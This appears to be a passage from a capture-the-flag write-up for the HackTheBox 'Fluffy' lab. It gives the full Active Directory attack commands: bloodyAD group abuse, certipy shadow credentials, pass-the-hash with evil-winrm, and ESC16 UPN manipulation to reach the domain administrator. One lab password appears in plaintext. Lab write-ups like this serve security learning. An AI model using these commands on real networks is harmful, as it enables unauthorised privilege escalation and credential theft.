The `p.agila` user has `GenericAll` to `Service Account Managers` group which has `GenericWrite` permission over `win_svc`, `ldap_svc`, and `ca_svc` user account. There are certificate templates that are enrollable for `p.agila` user, so it's worth noting that ADCS is also installed.

Let's add ourselves to the `Service Account Managers` group and change the `winrm_svc` password to get a shell access to the machine.

```bash
bloodyAD --host 10.10.11.69 -d fluffy.htb -u p.agila -p '<p.agila_password>' add groupMember "service accounts" p.agila
```

```bash
> bloodyAD --host 10.10.11.69 -d fluffy.htb -u p.agila -p '<p.agila_password>' set password winrm_svc Password123!
...
msldap.commons.exceptions.LDAPModifyException: Password can't be changed. It may be because the oldpass provided is not valid.
You can try to use another password change protocol such as smbpasswd, server error may be more explicit.
```

Unfortunately, we cannot change the password because the policy enfores the old password to be valid. Because ADCS is installed, we could use shadow credential to get a NTLM hash.

```bash
# Disble NTP
sudo timedatectl set-ntp 0

# Set timedate to fluffy.htb
sudo ntpdate fluffy.htb

# Shadow credential
certipy shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account 'winrm_svc'
```

# Shell as winrm_svc

## User flag

Use the NT hash to authenticate to winrm.

```bash
> evil-winrm -i 10.10.11.69 -u winrm_svc -H <NT_Hash>
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cat ../Desktop/user.txt
deadbeef8e7c8c5c6b6d336dc56cfake
```

There are no interesting files or directories can be found. This user doesn't has excessive privileges too. Let's check the ADCS. Running as `winrm_svc` user doesn't give interesting information in the ADCS, let's try with `ca_svc`. Get the NTLM hash first.

```bash
certipy shadow auto -u p.agila@fluffy.htb -p '<p.agila_password>' -account 'ca_svc'
```

# Auth as ca_svc

## ESC16

Find a vulnerable on the ADCS.

```bash
> certipy find -vulnerable -u ca_svc@fluffy.htb -hashes :<NT_Hash> -target fluffy.htb -stdout -ns 10.10.11.69
...
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

It found ESC16 vulnerability on the CA configuration. Let's use the [Scenario A: UPN Manipulation (Requires StrongCertificateBindingEnforcement = 1 (Compatibility) or 0 (Disabled) on DCs, and attacker has write access to a "victim" account's UPN)](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally) that is availabe on the [Certipy](https://github.com/ly4k/Certipy). This scenario matched our situation because we have write access to one or more accounts.

```bash
# Read the ca_svc account SPN for restoration
certipy account -u p.agila@fluffy.htb -p <p.agila_password> -target fluffy.htb -user 'ca_svc' read

# Update the ca_svc account SPN to administrator
certipy account -u p.agila@fluffy.htb -p <p.agila_password> -target fluffy.htb -user 'ca_svc' -upn 'administrator' update

# Request a certificate as ca_svc
certipy req  -u ca_svc@fluffy.htb -hashes :<NT_Hash> -dc-ip 10.10.11.69 -target fluffy.htb -ca 'FLUFFY-DC01-CA' -template User

# Restore the ca_svc account SPN
certipy account -u p.agila@fluffy.htb -p <p.agila_password> -target fluffy.htb -user 'ca_svc' -upn 'ca_svc@fluffy.htb' update

# Auth as administrator
certipy auth -pfx administrator.pfx -username 'administrator' -dc-ip 10.10.11.69 -domain fluffy.htb
```

Get a winrm access as administrator.

```bash
evil-winrm -i 10.10.11.69 -u administrator -H <NT_Hash>
```

# Shell as administrator

## Root flag

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
deadbeefba2abaf8dbb607ff6f66fake
```
